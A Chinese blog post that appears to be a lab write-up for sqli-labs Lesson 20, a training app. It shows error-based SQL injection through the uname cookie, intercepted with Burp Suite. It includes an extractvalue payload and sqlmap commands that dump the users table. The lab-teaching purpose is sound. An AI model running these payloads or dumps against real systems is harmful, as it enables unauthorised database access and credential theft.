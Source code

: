 ```yaml
---
title: sqli-labs lession 20 POST基于错误的Cookie-Uagent字段数据头注入
date: 2018-09-29 20:34:34
tags: [sqli-labs]
categories: sql注入
---
```

# sqli-labs lession 20 POST基于错误的Cookie-Uagent字段数据头注入 #

## 登录界面 ##

![1](\img\sql\Lesson-20\1.png)

## 分析 ##

不出所料账号密码被过滤了。

![2](\img\sql\Lesson-20\2.png)

用admin,admin登录成功,页面返回信息。

![3](\img\sql\Lesson-20\3.png)

这次页面拿了一堆信息。


从源码用可以得知登录成功后会保存用户登录名到cookie中,存活时间为1小时。再次刷新时会从数据库查询用户名等于cookie的数据,而cookie在SQL执行前没有过滤。这里得用Burpsuite做了。

![4](\img\sql\Lesson-20\4.png)

关闭phpstudy的magic_quotes_gpc配置,否则cookie数据中的特殊符号会被转义导致实验失败。

![5](\img\sql\Lesson-20\5.png)

## 注入 ##

首先以正确的用户账号登录

![6](\img\sql\Lesson-20\6.png)

然后开启firefox代理,用Burpsuite拦截包。刷新页面。

![7](\img\sql\Lesson-20\7.png)

截取到服务器请求获取cookie的包,发送到Repeater。

![8](\img\sql\Lesson-20\8.png)

修改`Cookie: uname=admin`为`Cookie: uname=admin'`,点击GO发送,查看归还界面。

![9](\img\sql\Lesson-20\9.png)

有报错信息后根据报错信息构造闭合,payload也呼之欲出。

![10](\img\sql\Lesson-20\10.png)

`Cookie: uname=admin' and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),0x7e))#`

![11](\img\sql\Lesson-20\11.png)

## SQLMAP ##

用Burpsuite抓取刷新页面的包,能够获得cookie信息。保存到文件。

![12](\img\sql\Lesson-20\12.png)

-r 指定HTTP请求报文

```
--level 2:加入检测cookie

--dbms mysql:指定后端数据库为mysql

--technique E:指定测试方式为报错注入

--thread 10:指定并发线程
```

`sqlmap -r sqlpost/post_20.txt --level 2 --dbms mysql --technique E --threads 10 `

![13](\img\sql\Lesson-20\13.png)

`sqlmap -r sqlpost/post_20.txt --level 2 --dbms mysql --technique E --threads 10 -D security -T users --columns --dump`

![14](\img\sql\Lesson-20\14.png)